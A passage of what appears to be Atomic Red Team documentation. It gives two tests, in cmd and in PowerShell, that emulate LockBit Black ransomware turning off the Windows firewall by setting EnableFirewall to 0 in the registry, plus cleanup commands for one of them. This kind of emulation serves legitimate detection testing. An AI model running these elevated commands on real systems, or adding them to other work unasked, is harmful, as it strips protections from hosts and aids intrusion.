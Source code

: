 ##### Get Prereq Commands:

```sh
echo ""
```

<br/>
<br/>

## Atomic Test #20 - LockBit Black - Unusual Windows firewall registry modification -cmd

An adversary tries to modify the windows firewall registry

**Supported Platforms:** Windows

**auto_generated_guid:** a4651931-ebbb-4cde-9363-ddf3d66214cb

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\WindowsFirewall\DomainProfile" /v EnableFirewall /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\WindowsFirewall\StandardProfile" /v EnableFirewall /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:

```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\WindowsFirewall\DomainProfile" /v EnableFirewall /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\WindowsFirewall\StandardProfile" /v EnableFirewall /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #21 - LockBit Black - Unusual Windows firewall registry modification -Powershell

An adversary tries to modify the windows firewall registry.

**Supported Platforms:** Windows

**auto_generated_guid:** 80b453d1-eec5-4144-bf08-613a6c3ffe12

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\WindowsFirewall\DomainProfile" -Name EnableFirewall -PropertyType DWORD -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\WindowsFirewall\StandardProfile" -Name EnableFirewall -PropertyType DWORD -Value 0 -Force
```
